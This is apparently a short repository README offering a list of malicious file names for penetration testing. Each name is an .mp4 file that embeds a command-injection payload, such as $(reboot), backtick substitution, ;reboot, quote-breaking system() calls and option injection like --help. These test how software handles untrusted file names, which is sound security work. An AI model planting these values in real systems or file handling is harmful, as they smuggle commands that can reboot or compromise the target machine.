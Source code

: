 # Malicious_Filename
Collections of different filenames with payloads that could be triggered by the target filesystem

```
$(echo PenTest).mp4
$(reboot).mp4
$PATH.mp4
$s$s$s.mp4
&&reboot.mp4
&reboot.mp4
'&reboot.mp4
';system(echo PenTest).mp4
';system(reboot).mp4
'system(reboot).mp4
--help.mp4
--version.mp4
;reboot.mp4
@{[system reboot]}.mp4
`echo PenTest`.mp4
`reboot`.mp4

```

